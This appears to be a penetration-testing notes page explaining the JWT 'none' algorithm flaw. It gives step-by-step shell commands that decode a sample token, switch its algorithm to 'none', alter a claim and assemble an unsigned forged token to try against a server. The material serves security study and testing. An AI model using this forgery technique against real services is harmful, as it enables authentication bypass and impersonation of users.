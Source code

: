 # JWT flaw

JWT is ...



## None Algorithm

A data integrity failure vulnerability was present on some libraries implementing JWTs a while ago. As we have seen, JWT implements a signature to validate the integrity of the payload data. The vulnerable libraries allowed attackers to bypass the signature validation by changing the two following things in a JWT:

1. Modify the header section of the token so that the `alg` header would contain the value `none`.
2. Remove the signature part.\


{% embed url="https://www.gavinjl.me/edit-jwt-online-alg-none/" %}

### Change JWT alg in linux machine

Start with the encoded token:

{% code overflow="wrap" %}
```bash
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```
{% endcode %}

Split the encoded token into segments delimited by the "." character.

\
The first block is the header, decode that:

```bash
echo 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9' | base64 -d
```

Here, the result is:

```
{"alg":"HS256","typ":"JWT"}
```

You can manually edit this and alter the algorithm, here we're changing it to "none". Once changed we can base64 encode it again to become useable:

```bash
echo -n '{"alg":"none","typ":"JWT"}' | base64
```

The result of that is :

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=
```

{% hint style="info" %}
IMPORTANT: Remove the trailing "=" before we use it to replace the first part of the JWT.
{% endhint %}

Follow the same process to edit the JWT payload (second encoded block).

{% code overflow="wrap" %}
```bash
echo 'eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ' | base64 -d
```
{% endcode %}

Result:

```json
{"sub":"1234567890","name":"John Doe","iat":1516239022}
```

We'll edit the name from John Doe to be Jane Doe and encode it:

```bash
echo -n '{"sub":"1234567890","name":"Jane Doe","iat":1516239022}' | base64
```

Result:

```
eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkphbmUgRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ==
```

If we're setting the algorithm to "none" then we don't want a signature. The format we'll get is:

```
{encoded header}.{encoded payload}.
```

Note the "." on the end. This would normally have the signature after it but because we're saying the algorithm is none then no signature is needed.

Our example becomes:

{% code overflow="wrap" %}
```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkphbmUgRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
```
{% endcode %}

We've successfully edited a JWT and can test to see if the server accepts the edited version.

\




